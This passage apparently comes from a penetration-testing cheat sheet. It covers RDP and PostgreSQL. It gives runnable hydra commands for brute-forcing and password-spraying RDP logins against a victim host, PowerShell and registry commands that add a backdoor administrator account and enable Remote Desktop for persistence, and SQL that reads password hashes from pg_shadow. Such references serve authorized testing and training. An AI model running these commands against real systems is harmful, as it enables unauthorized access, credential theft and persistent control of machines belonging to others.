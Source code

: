 
**Bruteforce RDP Credentials:**

```sh
# brute force single user's password (watch out for account lockout! check password policy with MSRPC)
hydra -l Administrator -P /usr/share/wordlists/rockyour.txt rdp://VICTIM_IP

# password spray against list of users
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://VICTIM_IP
```


**Add RDP User**: (good for persistence)

```powershell
net user derp herpderp /add
net localgroup Administrators derp /add
net localgroup "Remote Desktop Users" derp /add
# enable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# delete user
net user hacker /del
# disable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```


## 2.19 PostgreSQL - 5432

[HackTricks - Pentesting PostgreSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

**Connect:**

```sh
psql -U <myuser> # Open psql console with user (default: postgres)
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection
```

**Interacting/Useful commands:**

**NOTE**: `psql` supports tab completion for table names, db names.

```postgresql
-- List databases
SELECT datname FROM pg_database;
\l
\list

-- List schemas
SELECT schema_name,schema_owner FROM information_schema.schemata;
\dn+

\c <database> -- use (connect to) the database
\d -- List tables
\d+ <tablename> -- describe table
-- SQL standard way to describe table:
select column_name, data_type from information_schema.columns where table_name = <tablename>

-- Get current user
Select user;
\du+ -- Get users roles

--Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

```